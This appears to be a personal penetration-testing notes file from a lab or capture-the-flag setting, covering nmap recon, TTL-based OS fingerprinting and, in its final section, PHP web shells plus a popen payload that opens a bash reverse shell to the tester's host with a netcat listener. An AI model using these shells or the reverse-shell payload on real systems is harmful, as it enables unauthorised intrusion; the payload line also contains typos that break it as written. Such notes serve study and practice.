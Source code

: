 ### Procedures

#### Recon

##### NMAP

``` nmap -sC -sV -A -Pn -oA nmap/<fileOutput> <ipOrDomain> ```


##### VHOSTS - Domains
Add any domains found to /etc/hosts

##### Confirm target OS
Confirm target OS with ping /dcpdump and TTL and correlate with nmap discovery banner

* Linux/MAC OS – 64
* Windows – 128
* Cisco Routers – 255
* DNS – depends on the DNS resolver (can range from 128 to 86400)

```
# ping 10.129.181.116
PING 10.129.181.116 (10.129.181.116) 56(84) bytes of data.
64 bytes from 10.129.181.116: icmp_seq=1 ttl=63 time=7.63 ms
64 bytes from 10.129.181.116: icmp_seq=2 ttl=63 time=7.78 ms
64 bytes from 10.129.181.116: icmp_seq=3 ttl=63 time=7.76 ms
```

So this confirms the TTL 63 so Linux box

You can also use tcpdump as follows:

``` 
tcpdump -i tun0 -v -n ip src 10.129.181.116
```
then on another shell drop netat to 22 for example

```
nc -zv 10.129.181.116 22
```

And you should be able to only see the packets as follows below ```ttl 63```

```
root@cloud1:/opt/repos# tcpdump -i tun0 -v -n ip src 10.129.181.116
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
11:05:26.008219 IP (tos 0x0, ttl 63, id 0, offset 0, flags [DF], proto TCP (6), length 60)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [S.], cksum 0x9708 (correct), seq 1050554249, ack 1765552463, win 65160, options [mss 1357,sackOK,TS val 2162116772 ecr 2221788402,nop,wscale 7], length 0
11:05:26.019534 IP (tos 0x0, ttl 63, id 32497, offset 0, flags [DF], proto TCP (6), length 52)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [.], cksum 0xc1e3 (correct), ack 2, win 510, options [nop,nop,TS val 2162116784 ecr 2221788410], length 0
11:05:26.073981 IP (tos 0x0, ttl 63, id 32498, offset 0, flags [DF], proto TCP (6), length 93)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [P.], cksum 0x9d54 (correct), seq 1:42, ack 2, win 510, options [nop,nop,TS val 2162116838 ecr 2221788410], length 41
11:05:26.074296 IP (tos 0x0, ttl 63, id 32499, offset 0, flags [DF], proto TCP (6), length 52)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [F.], cksum 0xc182 (correct), seq 42, ack 2, win 510, options [nop,nop,TS val 2162116839 ecr 2221788410], length 0
```

##### Interesting Tools
OSINT (Open Source Intelligence Tools)

- GitTools - https://github.com/internetwache/GitTools
-------------------------

##### manual inclusion of php shell

<?php system("whoami"); ?>

<?php phpinfo(); ?> # check if system / popen mods are disabled

if so dfunction bypass so we create a nice php file which we include in a request to map what we can do as followws

dangerous.php

<?php 
$dangerous_functions = array('popen','system');

foreach($dangerous_functions as $f) {
    if (function_exists($f)) {
        echo $f . " exists<br>\n";
    }
}

So output came with popen as a nice possibility

so ... as a reference here is php popen manual :D --> https://www.php.net/manual/en/function.popen.php
so we did some mods :D as follows below

<?php
error_reporting(E_ALL);

/* Add redirection so we can get stderr. */
$handle = popen('bash -c "bash -i > & /dev/tcp/<OUR_IP>/<OUR_PORT> 0>&1"'>, 'r');

/* example $handle = popen('bash -c "bash -i > & /dev/tcp/127.0.0.1/9001 0>&1"'>, 'r'); */

echo "'handle'; " . gettype($handle) . "\n";
$read = fread($handle, 2096);
echo $read;
pclose($handle);

?>


we start our server that will reverse the shell using netcat as follows:

nv -lvnp 9001

when we have the server listening on this shell we send the request with our crafted shell and load it

we should have droped to the shell on target server on the nc shell